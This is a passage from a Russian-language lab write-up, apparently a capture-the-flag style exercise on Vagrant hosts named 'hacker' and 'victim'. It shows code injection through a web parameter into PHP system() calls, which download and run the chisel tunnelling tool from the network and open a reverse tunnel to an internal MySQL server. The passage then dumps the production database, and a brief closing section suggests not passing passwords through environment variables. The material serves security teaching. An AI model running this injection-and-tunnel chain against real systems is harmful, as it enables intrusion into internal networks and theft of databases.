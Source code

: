 Загрузим приложение на `victim` и запустим его:
```
vagrant@hacker:~$ curl -G 192.168.50.6 --data-urlencode "code=system('curl -L https://github.com/jpillora/chisel/releases/download/v1.7.3/chisel_1.7.3_linux_amd64.gz --output /tmp/chisel.gz 2>&1');"
  <h1> Hello world!</h1>
    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                   Dload  Upload   Total   Spent    Left  Speed
  100   651  100   651    0     0   3518      0 --:--:-- --:--:-- --:--:--  3518
  100 3346k  100 3346k    0     0   789k      0  0:00:04  0:00:04 --:--:--  870k
  <br>
vagrant@hacker:~$ curl -G 192.168.50.6 --data-urlencode "code=system('cd /tmp && gzip -d chisel.gz && chmod +x chisel');"
  <h1> Hello world!</h1>
  <br>
```

Запустим серверную часть chisel на хосте `hacker`, для этого откроем новый терминал и выполним:
```
$ vagrant ssh hacker
vagrant@hacker:~$ ./chisel server -p 8008 --reverse
  2020/11/29 15:02:22 server: Reverse tunnelling enabled
  2020/11/29 15:02:22 server: Fingerprint tyWC23cR/aMoDOJKIjwdXIlzirzNP4bkS3KNRlLa78k=
  2020/11/29 15:02:22 server: Listening on http://0.0.0.0:8008
```

Теперь запустим chisel на хосте `victim` при помощи команды:
```
vagrant@hacker:~$ curl -G 192.168.50.6 --data-urlencode "code=system('/tmp/chisel client 192.168.50.7:8008 R:3306:172.18.0.2:3306 2>&1');"
  <h1> Hello world!</h1>
  2020/11/29 15:04:51 client: Connecting to ws://192.168.50.7:8008
  2020/11/29 15:04:51 client: Connected (Latency 2.219222ms)
```

Откроем ещё один терминал на `hacker`:
```
$ vagrant ssh hacker
vagrant@hacker:~$ mysqldump -h 127.0.0.1 -uprod -p production
  Enter password:

  <...>
  LOCK TABLES `flag` WRITE;
  /*!40000 ALTER TABLE `flag` DISABLE KEYS */;
  INSERT INTO `flag` VALUES (1,'Flag captured');
  /*!40000 ALTER TABLE `flag` ENABLE KEYS */;
  UNLOCK TABLES;
  /*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;
  <...>
```

## Solution I

Единственным решением является отказать от передаче паролей через
переменные окружения. Но необходимо предложить альтернативу так как
эта информация необходима для формирования конфигурационных-файлов
и пр.

